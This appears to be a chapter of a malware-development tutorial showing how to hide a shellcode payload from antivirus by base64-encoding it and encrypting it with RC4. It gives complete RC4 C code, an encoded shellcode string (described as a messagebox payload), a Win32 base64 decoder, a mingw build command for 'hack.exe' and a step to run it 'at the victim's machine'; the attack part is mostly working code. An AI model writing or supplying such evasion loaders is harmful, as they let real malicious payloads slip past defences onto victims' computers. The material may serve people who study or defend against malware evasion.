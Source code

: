 # 06 cryptography - RC4 + Base64 (payload)

In most cases in real life, a simple `base64` encoding of the payload is enough during a pentest, but if antivirus protection is well configured on the target host, then this is a problem. What if you encrypt it with a stream cipher?    

RC4 in `C/C++` looks like this:    

```cpp
// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
    i = (i + 1) % 256;
    j = (j + s[i]) % 256;
    swap(&s[i], &s[j]);
    keystream[k] = s[(s[i] + s[j]) % 256];
	}
	return keystream;
}

// encryption and decryption
unsigned char* RC4(unsigned char *plaintext, unsigned char* ciphertext, unsigned char* key, unsigned int keyL, unsigned int messageL) {
  int i;
  unsigned char s[256];
  unsigned char* keystream;
  KSA(s, key, keyL);
  keystream = PRGA(s, messageL);

  for (i = 0; i < messageL; i++) {
    ciphertext[i] = plaintext[i] ^ keystream[i];
  }
  return ciphertext;
}
```

First of all we `base64` encoded our messagebox payload, which in turn will be encrypted with the `RC4` algorithm:    

![img](./img/2024-05-21_18-36.png)    

```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQkBAABIMclBukWDVgf/1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), strlen((const char*)plaintext));
```

So in our malware we do the reverse process: first we decrypting it via `RC4` then decoding via `base64`. For base64 decoding process we use Win32 crypto API:   

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

//...
```

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lcrypt32
```

![img](./img/2024-05-21_18-39.png)   

Then run it at the victim's machine:    

```powershell
.\hack.exe
```

![img](./img/2024-05-21_18-41.png)     


As you can see everything is worked perfectly :)    

via [https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html](https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html)    